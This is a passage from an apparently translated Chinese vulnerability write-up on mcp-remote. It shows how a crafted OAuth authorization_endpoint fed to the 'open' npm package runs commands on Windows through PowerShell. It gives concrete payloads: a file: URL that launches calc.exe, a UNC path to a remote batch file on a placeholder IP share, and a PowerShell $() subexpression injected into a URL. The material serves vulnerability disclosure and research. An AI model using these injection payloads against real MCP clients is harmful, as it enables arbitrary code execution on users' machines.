   
  
图 10：node-oauth-client-provider.ts 中重定向授权函数的简化代码片段  
  
6.  
()函数从“open”npm 包open导入。  在 Windows 机器上执行以下操作*： open(param)  
1. 查找 powershell.exe 的路径  
  
1. 准备将运行 param 参数的 PowerShell 编码命令。  
  
1. 使用以下命令行在新的子进程中运行它：  
  

```
powershell -NoProfile -NonInteractive -ExecutionPolicy Bypass -EncodedCommand ' UwB0AGEAcgB0ACAAIgBqAGEAdgB….= '
```

  
  
D.PowerShell 解码该命令并运行。在我们的例子中，它将执行 calc.exe：  
  

```
启动“ file:/c:/windows/system32/calc.exe ?response_type=code…..”
```

  
  
* “open”软件包在 macOS 和 Linux 上使用不同的代码路径，分别执行“open URL”或“xdg-open URL”。虽然这些实现也可以被利用通过 file:// URL 运行任意可执行文件，但由于没有调用 shell，攻击面更加有限，从而限制了控制可执行文件参数的能力。  
  
从有限到完整的命令执行  
  
该Start关键字指的是 PowerShell 的Start-Processcmdlet，可以运行可执行文件，或将其传递给 Windows Shell 进行文件扩展名关联或协议处理程序（URI 方案）。  
  
因为该authorization_endpoint字符串用于构造new URL()，所以它必须采用有效的 URL 格式，并以 URI 方案开头。  
  
当提供“ file:/c:/windows/system32/calc.exe ?response_type=code…..”时 - file: URI 方案将用于执行 calc.exe 可执行文件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadAbDQibLNibQ3hnDtciayfrzPvtmDmZFe93plrY6aj2LQx8ku5E4NWiaVAwA9b5F8b4AKQq5FfDUSpaA/640?wx_fmt=png&from=appmsg "")  
  
图 11：mcp-remote 在试图打开浏览器进行授权时执行 calc.exe 进程  
  
现在我们可以运行任何可执行文件，但没有参数——这不够有用。  
  
我们可以尝试使用诸如“ file://IP_ADDR/Share/test.bat ?response_type=code…..”之类的 URL 来执行远程文件，该 URL 指向用于访问网络资源的 UNC 路径（请注意双反斜杠）。  
  
它可以工作——但是 Windows 会弹出有关运行远程可执行文件的安全警告：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadAbDQibLNibQ3hnDtciayfrzPpCsMhy1g7ibEQwE4EBpPau0Dib6l32NdDib3N4SjysFtbL7dxQvbt33hg/640?wx_fmt=png&from=appmsg "")  
  
图 12：尝试执行 UNC 路径时显示的安全警告  
  
让我们尝试一种不同的策略——由于命令在 PowerShell 中运行，我们可以滥用子表达式评估功能来注入我们的命令：“http://www.example $(calc.exe) .com/?response_type=code…..”。这将运行 calc.exe，因为子表达式运算符 $()将评估（运行）其参数表达式。  
  
如果我们能够提供一个“空格”字符，这项技术就能让我们向命令注入任意参数。但由于我们的字符串经过了URL()，而空格在URL中不是有效字符，因此它要么会导致new URL()调用失败（如果在域名内），要么URL会被编码为%20。例如，输入“http://www.example.com/ $(cmd.exe /c echo test) ”会被翻译成“http://www.example.com/ $(cmd.exe%20/c%20echo%20test) /?response_type=code…..”  
  